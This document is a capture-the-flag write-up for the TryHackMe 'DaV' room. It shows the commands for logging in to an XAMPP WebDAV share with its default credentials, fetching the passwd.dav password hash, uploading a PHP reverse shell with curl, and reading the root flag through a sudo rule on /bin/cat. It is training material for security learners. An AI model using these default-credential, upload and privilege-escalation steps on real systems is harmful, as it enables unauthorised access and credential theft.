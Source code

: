 # DaV

---

![Untitled](DaV_images/Untitled.png)

---

# Enumeration

![Untitled](DaV_images/Untitled%201.png)

![Untitled](DaV_images/Untitled%202.png)

Dir Scan

![Untitled](DaV_images/Untitled%203.png)

# Exploit

Navigate to `/webdav` path → It would require a creds for accessing

![Untitled](DaV_images/Untitled%204.png)

After researching, I found the default creds for login at [http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html)

![Untitled](DaV_images/Untitled%205.png)

![Untitled](DaV_images/Untitled%206.png)

There is a file name `passwd.dav` → Read it to find any intensive data

![Untitled](DaV_images/Untitled%207.png)

Or you can use `curl`

```tsx
┌──(kali㉿kali)-[~/TryHackMe/DaV]
└─$ curl http://10.10.17.2/webdav/passwd.dav --user "wampp:xampp"
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

I save this one for further exploit

# Gain Access

Try to upload a reverse shell to the current location with the following command

```tsx
┌──(kali㉿kali)-[~/TryHackMe/DaV]
└─$ curl http://10.10.17.2/webdav/ --user "wampp:xampp" --upload-file shell.php
```

![Untitled](DaV_images/Untitled%208.png)

Great! The file has been uploaded successfully! Let’s check it on the web browser and ready to execute it

![Untitled](DaV_images/Untitled%209.png)

Start `Netcat Listener` at the local machine and execute the file by clicking it

![Untitled](DaV_images/Untitled%2010.png)

Now I am in, look around to locate the `user.txt` file and get the flag

```tsx
$ ls home
merlin  wampp
$ cd /home/merlin
$ ls -l
total 4
-rw-rw-r-- 1 merlin merlin 33 Aug 25  2019 user.txt
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

# Privilege Escalation → root

```tsx
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Surprisingly that the command `sudo -l` could be executed by user `www-data` and it allows the user to execute `/bin/cat` service as `root` permission

![Untitled](DaV_images/Untitled%2011.png)

Through the `GTFOBins` , I replace the `$LFILE` → `/root/root.txt` and get the root flag

```tsx
$ sudo /bin/cat "/root/root.txt"
101101ddc16b0cdf65ba0b8a7af7afa5
```
